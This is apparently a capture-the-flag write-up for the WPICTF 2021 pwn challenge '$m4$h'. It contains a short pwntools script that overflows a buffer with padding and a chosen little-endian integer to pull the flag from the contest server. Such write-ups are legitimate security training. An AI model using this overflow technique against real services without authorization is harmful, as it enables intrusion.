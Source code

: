 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | $m4$h Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: pwn
challenge: $m4$h
tags: "pwn, twh"
date: 2021-04-26T00:00:00+00:00
last_update: 2021-04-26T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Wpictf 2021</h1>

## $m4$h

> Solved by : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'smash184384.wpictf.xyz'
port = 15724

junk = 'A' * 11
num = 923992130

le_num = p32(num, endianness='little')
buffer = junk.encode() + le_num + '\n'.encode()

conn = remote(host, port)
conn.send(buffer)
flag = conn.recvline().decode().split(': ')[1].strip()
print(f'\nFLAG : {flag}\n')
conn.close()
```